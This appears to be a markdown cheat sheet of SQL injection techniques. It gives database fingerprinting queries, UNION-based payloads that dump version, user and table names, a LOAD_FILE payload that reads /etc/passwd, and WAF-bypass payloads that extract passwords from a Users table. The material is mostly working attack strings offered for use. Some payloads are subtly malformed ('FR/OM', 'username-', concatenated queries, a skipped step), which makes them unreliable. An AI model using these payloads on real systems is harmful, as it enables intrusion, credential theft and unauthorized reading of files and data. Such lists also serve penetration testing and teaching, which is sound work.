     1. **Database version**

    You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

    | Oracle     | `SELECT banner FROM v$versionSELECT version FROM v$instance` |
    | :--------- | ------------------------------------------------------------ |
    | Microsoft  | `SELECT @@version`                                           |
    | PostgreSQL | `SELECT version()`                                           |
    | MySQL      | `SELECT @@version`                                           |

    2. **Database contents**

    You can list the tables that exist in the database, and the columns that those tables contain.

    | Oracle     | `SELECT * FROM all_tablesSELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
    | :--------- | ------------------------------------------------------------ |
    | Microsoft  | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
    | PostgreSQL | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
    | MySQL      | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

    3. Shows version, user and database name:

    ```sql
    ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
    ```

    4. Using group_concat() function, used to concat all the rows of the returned results:

    ```sql
    ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
    ```

6. Accessing system files with load_file(). and advance exploitation afterwards :
    ```sql
    ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
    ```

7. Bypassing WAF :

    1. Using Null byte before SQL query.

    ```sql
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
    ```

    2. Using SQL inline comment sequence.

    ```sql
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'--
    ```
